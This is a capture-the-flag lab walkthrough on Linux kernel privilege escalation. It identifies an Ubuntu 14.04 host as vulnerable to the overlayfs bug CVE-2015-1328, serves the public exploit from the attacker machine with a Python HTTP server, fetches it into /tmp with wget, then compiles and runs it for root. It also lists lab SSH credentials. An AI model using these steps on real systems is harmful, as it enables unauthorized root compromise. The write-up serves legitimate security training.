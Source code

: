 ## Privilege Escalation: Kernel Exploits
- Username: karen
- Password: Password1

First, access to the machine over SSH

`sudo openvpn nguyenlong05.ovpn`

`ssh karen@10.10.230.143`

Once connected, run the following command to gather system details:

```
$ hostnamectl
   Static hostname: wade7363
         Icon name: computer-vm
           Chassis: vm
           Boot ID: 562b28fdff4045a1a0a1684e8d8c80c6
  Operating System: Ubuntu 14.04 LTS
            Kernel: Linux 3.13.0-24-generic
      Architecture: x86_64
```

Now we could identify the CVE for kernel exploit

![alt text](image-3.png)
```
# Exploit Title: ofs.c - overlayfs local root in ubuntu
# Date: 2015-06-15
# Exploit Author: rebel
# Version: Ubuntu 12.04, 14.04, 14.10, 15.04 (Kernels before 2015-06-15)
# Tested on: Ubuntu 12.04, 14.04, 14.10, 15.04
# CVE : CVE-2015-1328     (http://people.canonical.com/~ubuntu-security/cve/2015/C
VE-2015-1328.html)
```

Download the script https://www.exploit-db.com/exploits/37292 

Now we check the ip address by the `ifconfig` command

![alt text](image-4.png)

Starts a HTTP server using Python. By default, the server listens on port 8000

`python3 -m http.server`

On the machine, we can see it can't create or write file on target system, but we can move to /tmp directory to do it

`cd /tmp`

Now we transfer the exploit to target system `wget http://10.17.21.74:8000/37292.c` and complie it: `gcc 37292.c -o bocchitherock`, make it executable `chmod +x bocchitherock` and run the script `./bocchitherock`

![alt text](image-6.png)

![alt text](image-7.png)